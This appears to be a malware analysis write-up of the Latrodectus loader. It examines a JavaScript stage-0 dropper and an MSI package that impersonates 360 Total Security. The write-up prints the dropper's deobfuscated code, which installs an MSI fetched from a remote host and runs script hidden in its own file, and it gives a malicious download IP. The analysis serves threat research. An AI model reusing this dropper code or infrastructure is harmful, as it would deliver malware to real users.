



# LatrodectusWEB
Latrodectus malware analysis 

## Table of contents
- [Intruduction](#intruduction)
- [Stage 0 - The JS](#stage-0---the-js)
- [Stage 1 - The MSI package](#stage-1---the-msi-package)


## Intruduction


## Stage 0 - The JS

Stage 0 is appearing as an obfuscated JS file `<filename>.js` which contains the code that attempts to download an MSI package from a specified URL `http://45.95.11.217/ad.msi`. After downloading the MSI package, the JS file is using the `ActiveXObject` to iternact with Windows Installer and installs the product using the `InstallProduct()` method. 

The variable `a` employs an Immediately Invoked Function Expression (IIFE), encapsulating a function designed to locate and execute a script embedded within the current script file `WScript.ScriptFullName`. It utilizes the `Scripting.FileSystemObject` to navigate the file system, particularly for reading the lines of the script file. Within this context, the `e()` function iterates through the script file, identifying and extracting embedded script content, storing it in `d`. Subsequently, the `h()` function attempts to execute the extracted script content, provided it's not empty. The resulting object includes a method `j`, intended to orchestrate the entire process of discovering and executing the embedded script.

The `a.j()` invocation initiates the execution sequence by calling the `j` method of the `a` object. This method, in turn, endeavors to execute the embedded script discovered within the current script file.

```js
function installFromURL() {
        var installer;
        var msiPath;
        try {
            installer = new ActiveXObject("WindowsInstaller.Installer");
            installer.UILevel = 2;
            msiPath = "http://<snip>/<filename>.msi";
            installer.InstallProduct(msiPath);
        } catch (e) {
            WScript.Echo("failed: " + e.message);
        }
    }
    installFromURL();
    
    var a = (function() {
        var b = new ActiveXObject("Scripting.FileSystemObject"),
            c = WScript.ScriptFullName,
            d = "";
    
        function e() {
            if (!b.FileExists(c)) return;
    
            var f = b.OpenTextFile(c, 1);
            while (!f.AtEndOfStream) {
                var g = f.ReadLine();
                if (g.slice(0, 4) === "") d += g.substr(4) + "\n";
            }
            f.Close();
        }
    
        function h() {
            if (d !== "") {
                var i = new Function(d);
                i();
            }
        }
 
        return {
            j: function() {
                try {
                    e();
                    h();
                } catch (k) {}
    
            }
    
        };
    })();
    a.j();
```

## Stage 1 - The MSI package
An MSI package itself cannot be considered malicious because many products use it for their installation processes. However, in the exciting realm of malware analysis, we have to give it a chance to show its malicious side, RIGHT??? RIGHT... Let's dive in and see what mischief awaits! 

In order to analyze the MSI package, we have to install a specific 'unpacker' and see what the package contains. I chose to use the [lessmsi](https://github.com/activescott/lessmsi) tool for this purpose.

Let's start by diving deep into the package extractions, where we can find that a suspicious DLL is being extracted from the package named `360total.dll`.


Very interesting finding, BUT let's proceed with the package investigation and explore the tables.

In the property table, we can find information regarding the package creator, such as the manufacturer, description, and product name. Based on the name `360 Total`, the entire setup seems to be an impersonation attempt of the 360 Total security solution AV.




A very interesting table is the `CustomAction`, where an actor can insert their own custom actions or commands into the package flow. Here, they could potentially execute the extracted `360total.dll`—which is likely malicious—.


